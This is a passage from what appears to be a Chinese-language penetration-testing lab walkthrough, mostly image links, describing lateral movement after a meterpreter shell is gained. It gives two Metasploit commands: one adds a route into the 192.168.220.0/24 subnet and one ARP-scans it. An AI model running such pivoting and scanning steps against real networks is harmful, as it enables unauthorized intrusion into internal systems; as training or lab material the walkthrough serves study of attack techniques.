 ![](./image/wps69.jpg) 

通过meterpreter 的shell可以得到还有别的网段 192.168.220.0

![](./image/wps70.jpg) 

![](./image/wps71.jpg) 

接下来对220网段进行纵向渗透

为了使msf中模块更好的扫描220.0网络我们给shell添加路由

run autoroute -s 192.168.220.0/24

![](./image/wps72.jpg) 

然后开始扫描192.168.220.0网段,操作如下:

run post/windows/gather/arp_scanner RHOSTS=192.168.220.0/24

得到这台主机

![](./image/wps73.jpg) 
